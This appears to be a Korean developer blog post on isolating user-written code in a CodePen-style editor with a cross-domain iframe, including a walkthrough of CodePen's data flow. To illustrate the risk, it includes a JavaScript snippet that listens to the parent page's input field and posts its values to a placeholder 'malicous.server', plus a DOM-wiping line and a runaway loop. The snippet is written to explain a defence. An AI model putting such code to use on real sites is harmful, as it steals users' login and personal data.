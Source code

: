 ```yaml
---
layout: single
title: '코드 에디터를 위한 iframe 디자인 패턴'
categories: HTML
tag: [HTML, CodePen Project]
---
```


#### 개발 목표

Code Pen이라는 온라인 코딩 툴 사이트가 있다. - https://codepen.io/ <br>해당 사이트와 같이 코드를 입력하고 번들링하여 실시간으로 보여주는 사이트를 React를 사용하여 만들고자 한다.

---

#### 코드 입력 창에서 발생할 수 있는 문제점

간단하게 만들 수 있을 것 같았지만 코드를 입력하는 창을 구현하기 위해서는 아래와 같은 이슈사항들이 있었다.

1. 코드 입력창에 오류를 발생시키는 문법 등의 잘못된 코드가 작성될 수 있다.
2. DOM을 조작하는 코드로 인해 예상하지 못한 현상이 발생할 수 있다. <br> ex) document.body.innerHTML = '';
3. 사용자가 악의적인 코드를 넣을 수 있다. <br> ex) for (var i = 0; i < 99999999999999999; i++) {
   console.log(i);
   }

---

#### iframe 사용하여 해결

상기와 같은 문제점을 해결하기 위해서 HTML의 iframe을 사용해야 한다. iframe은 일반적으로 child frame이며, 그외의 요소는 parent frame에 속한다. 여기서 중요한 것은 **JavaScript EC(execution context)가 parent/child frame 별로 각각 따로 존재하고 실행된다는 것이다**. 즉, iframe에서 문제가 발생하더라도 iframe의 EC에서만 오류가 발생하고, Front App의 EC에는 영향을 주지 않는다.

![codepen-flowchart](/assets/images/iframe/js-execution-context.png 'Code Pen 사이트 디자인패턴')

그렇다면 어떻게 사용자가 입력한 코드를 iframe로 넣어 실행할 수 있을까?
'child frame'에서 'parent frame'의 정보를 가져올 때는 'parent' 문법을 사용하면 된다. 크롬 개발자 도구의 'console' 탭에서 'child iframe' 요소를 선택 후 'parent'를 입력하면 'parent frame'의 'Window 객체' 나타나는 것을 확인 할 수 있다. 반대로 'parent frame'에서 'child iframe'의 정보를 가져올 때는 'document.querySelector('iframe').contentWindow' 문법을 사용하면 된다.

추가적으로 알아야할 사항은 iframe이 항상 parent와 child frame의 커뮤니케이션을 허용하는 것은 아니라는 점이다. iframe은 아래와 같은 조건에서만 parent/child가 서로 접근할 수 있다.

-   iframe에 'sandbox' 프로퍼티가 없는 경우
-   sandbox의 프로퍼티가 존재하지만, 'sandbox="allow-same-origin"'인 경우
-   parent/child의 HTML document가 같은 domain, port, protocol(http vs https)인 경우

---

#### parent/child 직접 통신 방식의 문제점 및 해결방법

하지만, parent/child frame이 서로 직접 접근할 수 있으면 많은 문제점이 발생한다. 예를 들어, 해커가 사용자의 코드 입력 창에 아래와 같은 악의적인 코드를 넣을 수 있다. 이를 통해 해커는 'child frame'에서 'parent frame'의 input element'를 가져올 수 있다. 이후 eventListener를 사용하여 악의적인 서버로 개인 및 로그인 정보를 보낼 수 있다.

```javascript
document.querySelector('input').addEventListener('change', function => {
   axios.post('malicous.server', {
      value: event.target.value
   })
})
```

이외에도 쿠키와 세션 정보 등을 갈취할 수 있을 것이다. 이러한 이유로 Code Pen 사이트에서도 parent/child가 직접 통신하는 방식으로 구현하지 않았다.

아래는 Code Pen 사이트의 데이터 흐름을 정리한 것이다.
![codepen-flowchart](/assets/images/iframe/codepen-flowchart.png 'Code Pen 사이트 디자인패턴')

1. 사용자가 코드를 입력하면 'codepen.io' 서버에 코드를 전송한다.
2. codepen.io 서버에서 코드 Transpiling 프로세스가 완료된다.
3. Transpiling된 코드를 Frontend App으로 전송한다.
4. **전송된 코드를 바로 Frontend App에서 실행하는 것이 아니라 iframe을 먼저 Reload 시킨다.** (Reload는 새로고침과 유사)
5. Reload가 될 때, 'copn.io' 서버에 요청하여 iframe에서 보여질 HTML document를 가져온다. 즉, iframe은 다른 도메인을 통해서 로드된다.
6. HTML document 요소를 가져온 뒤, 'codepen.io' 서버에서 Transpiling된 JS 코드를 다시 'cdpn.io'에 전송 후 돌려받는다. 해당 JS 코드를 실행하며 끝난다.

> 참고 : 사이트에서 코드를 입력하면 개발자 도구 Network 탭에서 통신을 확인할 수 있다.
> ![codepen-flowchart-site](/assets/images/iframe/codepen-flowchart-realsite.png 'Code Pen 사이트 네트워크 탭')

흐름을 살펴보면 Front App과 iframe간의 직접 통신하는 부분이 없다는 것을 확인할 수 있다. 이는 위에서 설명했듯이 악의적인 코드가 브라우저에서 실행되는 것을 방지하기 위해서이다.

대부분의 '온라인 코딩 툴 사이트'는 위와 같은 구조를 가지고 있다. 하지만 서버를 2개나 사용하고 데이터 흐름도 복잡하다. 쉬운 방법은 없을까? 더 간단한 구현 방법은 다음 포스팅에 작성하도록 하겠다.
